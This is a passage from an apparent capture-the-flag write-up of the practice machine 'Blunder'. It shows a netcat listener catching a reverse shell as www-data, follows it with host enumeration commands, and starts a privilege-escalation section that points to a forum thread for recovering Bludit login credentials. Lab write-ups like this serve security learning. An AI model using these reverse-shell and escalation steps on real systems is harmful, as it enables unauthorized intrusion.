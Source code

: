 ```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.191] 40702
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:13:14 up 10:36,  1 user,  load average: 29.01, 35.07, 34.32
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shaun    :0       :0               20:37   ?xdm?   8:49   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:70:3d brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.191/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:703d/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> hugo

- password enum: for Bludit, search google and get [Can't remember login/password in Admin - Bludit Community Support Forum](https://forum.bludit.org/viewtopic.php?t=767)

![image-20240121174625635](./Blunder.assets/image-20240121174625635.png)
